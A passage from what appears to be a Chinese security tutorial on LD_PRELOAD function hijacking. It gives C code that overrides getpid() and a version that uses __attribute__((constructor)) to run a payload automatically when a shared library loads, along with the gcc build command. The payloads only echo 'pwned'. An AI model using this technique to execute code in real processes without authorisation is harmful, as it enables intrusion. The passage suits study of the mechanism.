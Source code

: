**注意：**因为通过设置`preload`劫持了比较底层的函数，而派发出的新进程如果用到该函数也会一并被劫持，也就是说如果没有及时`unsetenv("LD_PRELOAD")`则会导致不断循环，一旦操作敏感就会比较危险，所以一定要及时删除这个环境变量，改进版如下：

```c
#include <sys/types.h>
#include <unistd.h>

void payload(void){
    system("echo 'pwned by getpid!'");
}

pid_t getpid(void){
    if (getenv("LD_PRELOAD") == NULL){
        return 0;
    }

    unsetenv("LD_PRELOAD");
    payload();

    return 0;
}
```



接着编译共享对象，`-shared`表示生成共享库，`-fPIC`表示使用地址无关代码

```shell
gcc -shared -fPIC getpid.c -o getpid.so
```

`LD_PRELOAD`设置加载so文件，运行python，可以看到函数被成功劫持

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190403104653.png)

这个方法有一定限制，首先需要找到一个相对简单的函数原型，然后需要确保该函数被目标程序调用，因此一个更好的方法是利用扩展修饰符修饰函数，优先加载恶意函数，增强通用性，这里就用到了`扩展修饰符` `__attribute__((constructor))`

> GCC 有个 C 语言扩展修饰符 `__attribute__((constructor))`，可以让由它修饰的函数在 main() 之前执行，若它出现在共享对象中时，那么一旦共享对象被系统加载，立即将执行 `__attribute__((constructor))` 修饰的函数

简单说就是`__attribute__`可以修饰几个属性，包括函数属性、变量属性和类型属性，语法格式为：

`__attribute__(( attribute-list ))`

当函数属性被设置为`constructor`时，该函数会在可执行文件（或共享对象）加载时被调用，同理当设置属性为`destructor`时会在对象`unload`时调用，也就是说设置为这两个属性时，会在`main()`函数执行之前或者`return()`执行之后被调用，我们就可以借助这个扩展修饰符，当加载so文件时自动执行恶意函数，这样就不局限于某个特定函数，使用面大大扩展了

重新写一个函数，使用 `__attribute__((constructor))`修饰

```c
#include <unistd.h>

void payload(void){
    system("echo 'pwned!'");
}

__attribute__ ((__constructor__)) void exec(void){
    if (getenv("LD_PRELOAD") == NULL){
        return;
    }

    unsetenv("LD_PRELOAD");
    payload();

    return;
}
```
